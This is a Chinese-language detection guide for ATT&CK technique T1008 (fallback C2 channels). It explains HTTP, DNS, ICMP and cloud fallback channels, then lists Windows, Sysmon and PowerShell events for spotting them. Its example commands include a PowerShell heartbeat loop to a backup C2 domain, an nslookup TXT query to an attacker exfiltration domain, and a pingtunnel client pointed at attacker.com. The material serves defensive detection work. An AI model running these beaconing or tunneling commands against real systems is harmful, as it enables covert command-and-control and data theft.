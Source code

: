 # T1008-备用通信通道

## 描述

攻击者使用备用或备用通信通道（T1008），在主要命令与控制（C2）通道受损、被检测或不可用时，维持对目标系统的控制和数据渗出能力。备用通道旨在确保C2通信的可靠性，规避防御机制（如防火墙、IDS/IPS）或数据传输限制（如带宽阈值）。这些通道可能使用不同协议（如HTTP、DNS、ICMP）、端口、加密方式，或通过合法服务（如云平台、社交媒体）伪装流量。

备用通道与持久化技术类似，旨在通过多种通信方法保持控制，防止权限丢失。攻击者可能预配置多个通道，动态切换以应对网络限制或检测。检测重点在于识别异常网络流量、非常规协议使用及可疑进程的网络活动。

## 测试案例

1. **HTTP备用通道**  
   攻击者使用HTTP POST请求向备用域名发送心跳包，模拟C2通信。  
2. **DNS隧道**  
   通过DNS查询将数据编码后发送到攻击者控制的域名。  
3. **ICMP通道**  
   使用ICMP（Ping）数据包封装C2指令或渗出数据。  
4. **云服务通道**  
   通过合法云服务（如Google Drive、Dropbox）上传/下载C2指令或数据。  

### 示例命令
- **HTTP备用通道**（PowerShell）：
  ```powershell
  $url = "https://backup-c2.example.com/heartbeat"
  while ($true) {
      try { Invoke-WebRequest -Uri $url -Method Post -Body "status=active" } catch {}
      Start-Sleep -Seconds 60
  }
  ```
- **DNS隧道**（nslookup模拟）：
  ```cmd
  nslookup -type=TXT exfil.abcdef123.attacker.com
  ```
- **ICMP通道**（需专用工具如`pingtunnel`）：
  ```cmd
  pingtunnel -type client -l 127.0.0.1:8080 -s attacker.com
  ```

## 检测日志

**Windows安全日志**  
- **事件ID 4688**：记录可疑进程（如`powershell.exe`、`nslookup.exe`）的创建。  

**Sysmon日志**  
- **事件ID 1**：记录进程创建，包含命令行参数（如`Invoke-WebRequest`或`nslookup`）。  
- **事件ID 3**：记录网络连接，捕获非常规协议（如DNS、ICMP）或异常目标IP/域名。  
- **事件ID 7**：记录加载的模块，检测C2相关DLL或脚本。  

**网络日志**  
- 捕获异常流量（如高频DNS查询、ICMP数据包异常大小、HTTP POST到未知域名）。  

**PowerShell日志**  
- **事件ID 4104**：记录PowerShell脚本执行，捕获HTTP请求或网络操作。  
